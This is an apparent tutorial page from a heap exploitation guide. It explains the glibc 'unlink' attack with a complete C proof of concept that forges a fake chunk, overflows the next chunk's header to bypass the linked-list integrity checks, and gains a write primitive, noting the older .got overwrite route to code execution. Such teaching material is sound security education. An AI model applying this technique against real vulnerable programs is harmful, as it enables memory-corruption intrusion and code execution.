

# Unlink Exploit

This particular attack was once quite common. However, two security checks were added in the `unlink` MACRO("corrupted size vs. prev_size" and "corrupted double-linked list") which reduced the impact of the attack to some extent. Nevertheless, it is worthwhile to spend some time on it. It exploits the pointer manipulation done in the `unlink` MACRO while removing a chunk from a bin.

Consider this sample code(download the complete version [here](../assets/files/unlink_exploit.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x80);        // Points to 0xa0e010
chunk2 = malloc(0x80);        // Points to 0xa0e0a0

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;   // hex for "hacked!"

printf("%s\n", data);         // Prints "hacked!"
```

This might look a little complicated compared to other attacks. First, we malloc two chunks `chunk1` and `chunk2` with size `0x80` to ensure that they fall in the smallbin range. Next, we assume that the attacker somehow has unbounded control over the contents of `chunk1`(this can be using any 'unsafe' function such as `strcpy` on user input). Notice that both the chunks will lie in the memory side by side. The code shown above uses custom struct `chunk_structure` for clarity purposes only. In an attack scenario, the attacker shall simply send bytes to fill in `chunk1` that would have the same effect as above. 

A new fake chunk is created in the 'data' part of `chunk1`. The `fd` and `bk` pointers are adjusted to pass the "corrupted double-linked list" security check. The contents of the attacker are overflowed into `chunk2`'s header that sets appropriate `prev_size` and `prev_in_use` bit. This ensures that whenever `chunk2` is freed, the `fake_chunk` will be detected as 'freed' and will be `unlinked`'. The following diagrams shows the current state of the various memory regions:


Carefully, try to understand how `P->fd->bk == P` and `P->bd->fk == P` checks are passed. This shall give an intution regarding how to adjust the `fd` and `bk` pointers of the fake chunk.

As soon as `chunk2` is freed, it is handled as a small bin. Recall that previous and next chunks(by memory) are checked whether they are 'free' or not. If any chunk is detected as 'free', it is `unlinked` for the purpose of merging consecutive free chunks. The `unlink` MACRO executes the following two instructions that modify pointers:

1. Set `P->fd->bk` = `P->bk`.
2. Set `P->bk->fd` = `P->fd`.

In this case, both `P->fd->bk` and `P->bk->fd` point to the same location so only the second update is noticed. The following diagram shows the effects of the second update just after `chunk2` is freed.



Now, we have `chunk1` pointing to 3 addresses(16-bit) behind itself(`&chunk1 - 3`). Hence, `chunk1[3]` is in fact the `chunk1`. Changing `chunk1[3]` is like changing `chunk1`. Notice that an attacker has a greater chance of getting an opportunity to update data at location `chunk1`(`chunk1[3] here`) instead of `chunk1` itself. This completes the attack. In this example, `chunk1` was made to point to a 'data' variable and changes through `chunk1` were reflected on that variable.

Earlier, with the absence of security checks in `unlink`, the two write instructions in the `unlink` MACRO were used to achieve arbitrary writes. By overwriting `.got` sections, this led to arbitrary code execution.